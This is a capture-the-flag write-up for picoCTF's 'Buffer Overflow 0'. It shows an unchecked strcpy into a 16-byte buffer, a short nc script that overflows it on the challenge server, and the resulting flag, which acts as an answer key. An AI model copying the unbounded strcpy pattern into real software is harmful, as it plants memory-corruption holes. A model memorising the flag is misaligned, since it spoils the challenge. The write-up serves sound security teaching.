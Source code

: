 # Buffer Overflow 0

Link: https://play.picoctf.org/practice/challenge/257?originalEvent=70&page=1

This challenge is very easy. It only requires you to put in a string of characters longer than 16.

The reason for this lies in the program itself. In the sourcecode we find an interesting function

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function actually prints the flag! 

A little later we find the line `signal(SIGSEGV, sigsegv_handler); // Set up signal handler`

This line handles segmentation faults (SIGSEGV).

The next function is the one we exploit, vuln.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

When we insert a longer string than 16 (buf1 / input) and try to copy it we get a segmentation fault. This in turn calls sigsegv_handler and prints the flag.

## Solution
```bash
#!/bin/bash
echo "Any string longer than 16 characters" > message.txt
nc saturn.picoctf.net 51110 < message.txt
```
```bash
nc saturn.picoctf.net 51110
input: Any string longer that 16 characters
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

